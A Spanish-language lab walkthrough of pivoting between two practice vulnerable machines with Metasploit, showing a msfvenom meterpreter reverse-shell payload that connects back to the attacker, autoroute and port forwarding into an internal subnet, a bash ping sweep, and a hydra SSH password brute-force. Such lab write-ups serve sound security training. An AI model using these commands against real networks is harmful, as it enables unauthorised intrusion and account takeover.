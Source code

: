 #pivoting 
Usaremos la máquina friendly 1 intermedia y la máquina basic de vulnyx máquina final:
![[Pasted image 20240615202221.png]]

Procedemos con la intrusión en la máquina friendly 1 hasta ser usuario root:
![[Pasted image 20240615202227.png]]

Ahora vamos a recibir esta conexión como meterpreter en la máquina atacante, por lo que creamos un nuevo payload con msfvenom:
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.32 LPORT=4444 -f elf -b '\x00\x0a\x0d' -o virus
```
Y nos lo compartimos con la máquina víctima:
![[Pasted image 20240615202239.png]]

![[Pasted image 20240615202243.png]]
Y usamos el multi/handler de metasploit cargando el payload de meterpreter:
```bash
set PAYLOAD linux/x86/meterpreter/reverse_tcp
```

![[Pasted image 20240615202254.png]]

![[Pasted image 20240615202302.png]]

Y recibimos el meterpreter:
![[Pasted image 20240615202316.png]]

Vemos las interfaces de red con el comando ipconfig, donde identificamos la segunda interfaz de red:
![[Pasted image 20240615202322.png]]

Enrutamos el tráfico con el módulo de autoroute:
```bash
use /multi/manage/autoroute
```

![[Pasted image 20240615202330.png]]
Y ahora tenemos que encontrar equipos levantados dentro de esta red interna de 10.10.10.0/24, por lo que usamos el siguiente script:
```bash
#!/bin/bash

for i in {1..255}; do
    timeout 1 bash -c "ping -c 1 10.10.10.$i" >/dev/null
    if [ $? -eq 0 ]; then
        echo "El host 10.10.10.$i está activo"
    fi
done
```
Lo compartimos:
![[Pasted image 20240615202340.png]]

Lo recibimos:
![[Pasted image 20240615202346.png]]

Y encontramos el host objetivo:
![[Pasted image 20240615202353.png]]

Ahora tenemos que hacerle un escaneo de puertos a esta dirección IP, por lo que usamos el módulo de portscan/tcp:
![[Pasted image 20240615202402.png]]

Y con los siguientes comandos realizamos el port forwarding, de tal forma que nos vamos a traer tanto el puerto 22 como el puerto 631:
```bash
portfwd add -l 222 -p 22 -r 10.10.10.8
portfwd add -l 631 -p 631 -r 10.10.10.8
```

![[Pasted image 20240615202410.png]]

Y aquí vemos el contenido de lo que corre por el puerto 631:
![[Pasted image 20240615202416.png]]

Detectamos el usuario:
![[Pasted image 20240615202422.png]]

Por lo que atacamos al puerto ssh que también nos hemos traído en el puerto 222 de mi máquina local:
```bash
hydra -l dimitri -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1 -s 222
```
